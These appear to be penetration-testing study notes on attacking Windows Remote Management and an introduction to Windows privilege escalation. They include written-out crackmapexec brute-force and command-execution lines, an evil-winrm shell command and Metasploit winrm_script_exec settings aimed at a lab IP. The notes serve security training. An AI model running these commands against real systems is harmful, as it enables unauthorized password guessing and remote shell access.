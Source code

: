 ### Exploiting WinRM ###

+ `Windows Remote Management` (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S)
+ Microsoft implemented WinRM in to Windows in order to make life easier for system admins
+ WinRM is typically used in the following ways:
  + Remotely access and interact with Windows hosts on a local network 
  + Remotely access and execute commands on Windows systems
  + Manage and configure Windows systems remotely 
+ WinRM typically uses TCP port 5985 and 5986 (HTTPS)
+ WinRM implements access control and security for communication between systems through various forms of authentication 
+ We can utilize a utility called <r>"crackmapexec"</r> to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system 
+ Can also utilize a ruby script called <r>"evil-winrm"</r> to obtain a command shell session on the target system

When doing recon on a system with <o>nmap</o>:
+ Port 5985 and 5986 are not apart of the default ports scan 
  + Will have to use `-p-` or `-p 5985,5986`
+ Also the banner displayed under version is usually wrong, as WinRM does not provide a banner

Now that the system was found to be vulnerable, can use <r>crackmapexec</r> from the CLI to brute-force 
+ to attack winrm: `crackmapexec winrm TARGET_IP -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

Can now use <r>crackmapexec</r> to execute a command following the `-x`
+ Example: `crackmapexec winrm 10.3.17.184 -u administrator -p tinkerbell -x "whoami`
  + A good command for this is `systeminfo`

To get a shell, will use <r>evil-winrm</r>
+ Example: `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.3.17.184`

Can get a meterpreter session with <r>msfconsole</r>
+ Will `search winrm_script_exec` and use the exploit
  + need to specify `RHOSTS`
  + can also `set FORCE_VBS true`
  + `set USERNAME user`
  + `set PASSWORD password`

## Windows Privilege Escalation ##

### Windows Kernel Exploitation ###

#### Privilege Escalation ####
+ The process of exploiting vulnerabilities or misconfiguration in systems to elevate privileges from one user to another
  + typically to a user with administrative or root access on a system
+ Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall success of penetration test
+ After gaining an initial foothold on a target system, will need to elevate privileges
+ Developing privilege escalation skills will mark you out as a good penetration tester  

